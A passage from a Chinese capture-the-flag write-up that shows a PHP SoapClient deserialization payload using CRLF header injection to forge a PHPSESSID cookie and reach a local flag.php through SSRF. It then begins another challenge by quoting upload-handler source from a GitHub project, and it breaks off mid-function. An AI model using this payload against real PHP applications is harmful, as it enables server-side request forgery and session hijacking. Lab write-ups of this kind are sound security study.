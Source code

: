 构造的时候有个注意点, 因为 flag 最后是写在 session 里的, 所以在 ssrf 发包的时候需要指定一个相同的 PHPSESSID cookie, 这样才能确保我们这边能够获取到 flag

payload 如下

```php
<?php
$a = new SoapClient(null,array('location' => 'http://127.0.0.1/flag.php', 'user_agent' => "111\r\nCookie: PHPSESSID=uns9hpdaos2m88tsi4ml2v0o42", 'uri' => 'test'));
$b = serialize($a);
echo '|'.urlencode($b);
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211191618240.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211191618291.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211191618440.png)

## [安洵杯 2019]不是文件上传

根据底下的 `Powered By wowouploadimage` 在 GitHub 找到源码

[https://github.com/Threezh1/wowouploadimage](https://github.com/Threezh1/wowouploadimage)

helper.php

```php
<?php
class helper {
	protected $folder = "pic/";
	protected $ifview = False; 
	protected $config = "config.txt";
	// The function is not yet perfect, it is not open yet.

	public function upload($input="file")
	{
		$fileinfo = $this->getfile($input);
		$array = array();
		$array["title"] = $fileinfo['title'];
		$array["filename"] = $fileinfo['filename'];
		$array["ext"] = $fileinfo['ext'];
		$array["path"] = $fileinfo['path'];
		$img_ext = getimagesize($_FILES[$input]["tmp_name"]);
		$my_ext = array("width"=>$img_ext[0],"height"=>$img_ext[1]);
		$array["attr"] = serialize($my_ext);
		$id = $this->save($array);
		if ($id == 0){
			die("Something wrong!");
		}
		echo "<br>";
		echo "<p>Your images is uploaded successfully. And your image's id is $id.</p>";
	}

	public function getfile($input)
	{
		if(isset($input)){
			$rs = $this->check($_FILES[$input]);
		}
		return $rs;
	}

	public function check($info)
	{
		$basename = substr(md5(time().uniqid()),9,16);
		$filename = $info["name"];
```
